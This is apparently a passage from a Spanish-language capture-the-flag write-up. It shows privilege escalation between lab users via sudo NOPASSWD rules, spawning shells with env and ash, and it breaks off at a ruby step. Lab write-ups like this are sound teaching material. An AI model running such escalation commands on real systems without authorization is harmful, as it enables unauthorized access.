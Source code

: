 Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on f6a8d22ef0ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on f6a8d22ef0ec:
    (daphne) NOPASSWD: /usr/bin/env
```

Por lo que podremos ejecutar el binario `env` como el usuario `daphne`, por lo que haremos lo siguiente:

```shell
sudo -u daphne env /bin/sh
```

Y con esto seremos dicho usuario.

## Escalate user vilma

Primero pondremos `bash` para tener una shell de `bash` y tener una shell mucho mejor.

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for daphne on f6a8d22ef0ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User daphne may run the following commands on f6a8d22ef0ec:
    (vilma) NOPASSWD: /usr/bin/ash
```

Por lo que vemos podremos ejecutar ese binario `ash` como el usuario `vilma`, por lo que haremos lo siguiente:

```shell
sudo -u vilma ash
```

Y con esto seremos dicho usuario.

## Escalate user shaggy

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for vilma on f6a8d22ef0ec:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vilma may run the following commands on f6a8d22ef0ec:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

Por lo que vemos podemos ejecutar el binario `ruby` como el usuario `shaggy`, por lo que haremos lo siguiente:
